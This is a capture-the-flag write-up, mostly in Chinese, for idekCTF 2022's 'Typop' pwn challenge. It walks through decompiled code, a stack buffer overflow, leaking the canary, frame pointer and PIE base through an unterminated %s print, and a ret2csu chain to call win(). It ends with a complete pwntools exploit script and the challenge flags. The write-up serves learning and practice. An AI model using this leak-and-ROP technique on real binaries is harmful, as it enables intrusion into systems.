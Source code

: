 # idekCTF 2022
###### tags: `CTF`

## pwn
### Typop

```!
While writing the feedback form for idekCTF, JW made a small typo. It still compiled though, so what could possibly go wrong?

nc typop.chal.idek.team 1337

Downloads: typop.tar
```

首先打開 ghidra 分析，看到有以下幾個函式

:::spoiler main
```clike
undefined8 main(void)
{
  int iVar1;
  
  setvbuf(stdout,(char *)0x0,2,0);
  while( true ) {
    iVar1 = puts("Do you want to complete a survey?");
    if (iVar1 == 0) {
      return 0;
    }
    iVar1 = getchar();
    if (iVar1 != 0x79) break;
    getchar();
    getFeedback();
  }
  return 0;
}
```
:::

:::spoiler getFeedback
```clike=
void getFeedback(void)
{
  long in_FS_OFFSET;
  undefined8 local_1a;
  undefined2 local_12;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_1a = 0;
  local_12 = 0;
  puts("Do you like ctf?");
  read(0,&local_1a,0x1e);
  printf("You said: %s\n",&local_1a);
  if ((char)local_1a == 'y') {
    printf("That\'s great! ");
  }
  else {
    printf("Aww :( ");
  }
  puts("Can you provide some extra feedback?");
  read(0,&local_1a,0x5a);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
:::

:::spoiler win
```clike
void win(undefined param_1,undefined param_2,undefined param_3)

{
  FILE *__stream;
  long in_FS_OFFSET;
  undefined8 local_52;
  undefined2 local_4a;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_4a = 0;
  local_52 = CONCAT17(0x74,CONCAT16(0x78,CONCAT15(0x74,CONCAT14(0x2e,CONCAT13(0x67,CONCAT12(param _3,
                                                  CONCAT11(param_2,param_1)))))));
  __stream = fopen((char *)&local_52,"r");
  if (__stream == (FILE *)0x0) {
    puts("Error opening flag file.");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  fgets((char *)&local_48,0x20,__stream);
  puts((char *)&local_48);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
:::

可以看到，這題的目的是要想辦法執行 win 函式讀取檔案，而此函式需要帶入 3 個 params 個別取一個字元並與一些以定義的字串共同拼接成要讀的檔案名稱

而在函式 getFeedback 中可以清楚的看到有 bof 的漏洞，因此理想上是使用這個漏洞並串 ROP 執行 win

不過這題有幾個麻煩的地方，首先第一個是使用 checksec 查看檢查後發現全部檢查都有開，因此必須想辦法 leak canary 和 PIE 相對位置等資訊

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

第二個麻煩的地方是，由於執行 win 函式需要傳參數進去給它，而此程式為 64 位元，因此需要想辦法設定 rdi, rsi, rdx 的暫存器，前兩個還好說但使用 ROPgadget 工具發現沒有設定 rdx 暫存器的 gadget，因此需要想辦法用其他方式設定

關於第一個部分，可以發現在 getFeedback 的第 13 行是使用 `%s` format 進行輸出，因此只要字串中間沒有出現 `\x00` 就會一直輸出下去，可以利用這個點先 leak 出 canary 的值之後等再次執行時再繼續 leak 出 rbp, return address 等數值 (不過在 leak canary 的時候要注意的是記得要多填一個字元覆蓋 canary 的最低位因為此固定為 `\x00`)，也就可以利用這些資訊計算相對位置得出函式的真正位置及操作 stack 等

而關於第二個部分，可以利用 ret2csu 的方式設定暫存器，以下是 `__libc_csu_init` 的節錄，可以先利用 0x1014ca 開始的 pop rbx 到 ret 之間的操作設定 rbx, rbp, r12-15 暫存器，並再跳回 0x1014b0 將 r12-14 的暫存器內容給 rdi, rsi, rdx，並在 0x101469 call 函式 win，即可得到 flag

```
001014b0    MOV        RDX ,R14
001014b3    MOV        RSI ,R13
001014b6    MOV        EDI ,R12D
001014b9    CALL       qword ptr [R15  + RBX *0x8 ]=>->frame_dummy

001014bd    ADD        RBX ,0x1
001014c1    CMP        RBP ,RBX
001014c4    JNZ        LAB_001014b0

001014c6    ADD        RSP ,0x8
001014ca    POP        RBX
001014cb    POP        RBP
001014cc    POP        R12
001014ce    POP        R13
001014d0    POP        R14
001014d2    POP        R15
001014d4    RET
```

以下是完整的 exploit

:::spoiler solve.py
```python
from pwn import *
from Crypto.Util.number import long_to_bytes
binary = "./attachments/chall"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("typop.chal.idek.team",1337)
# conn = process(binary)
# conn = gdb.debug(binary)

# leak canary
conn.sendlineafter(b"survey?\n", b"y")
conn.sendlineafter(b"like ctf?\n",b"y"+b"A"*9)
conn.recvuntil(b"y"+b"A"*9+b"\n")
canary = conn.recv(7)[::-1] + b"\x00"
print("canary:","0x"+canary.hex())
conn.sendafter(b"feedback?",b"A"*10+b"\x00")

# leak old rbp
conn.sendlineafter(b"survey?\n", b"y")
conn.sendafter(b"like ctf?\n",b"y"+b"A"*(9+8))
rbp = b"\x00\x00" + conn.recvline().strip()[-6:][::-1]
print("rbp:","0x"+rbp.hex())
conn.sendafter(b"feedback?",b"A"*10+canary[::-1])

# leak main+55
conn.sendlineafter(b"survey?\n", b"y")
conn.sendafter(b"like ctf?\n",b"y"+b"A"*(9+8+8))
main_55 = b"\x00\x00" + conn.recvline().strip()[-6:][::-1]
base = int.from_bytes(main_55, byteorder="big") - 0x447
print("main+55:","0x"+main_55.hex())
# ret2csu
payload = b"A"*2 + long_to_bytes(base+0x249).rjust(8,b"\x00")[::-1] + canary[::-1] + rbp[::-1]
payload += long_to_bytes(base+0x4ca).rjust(8,b"\x00")[::-1] # csu_init pop regs
payload += b"\x00"*8 #rbx 0
payload += long_to_bytes(int.from_bytes(rbp, byteorder="big")+0x38).rjust(8,b"\x00")[::-1] #rbp
payload += b"fAAAAAAA" #r12 edi
payload += b"lAAAAAAA" #r13 rsi
payload += b"aAAAAAAA" #r14 rdx
payload += long_to_bytes(int.from_bytes(rbp, byteorder="big")-0x20).rjust(8,b"\x00")[::-1] #r15 win position
payload += long_to_bytes(base+0x4b0).rjust(8,b"\x00")[::-1] # csu_init set rdi,rsi,rdx
conn.sendafter(b"feedback?", payload)

conn.interactive()
```
:::

`idek{2_guess_typos_do_matter}`

## Sanity
### Feedback survey

填問卷

`idek{We_hope_you_enjoyed_idek2022*!}`
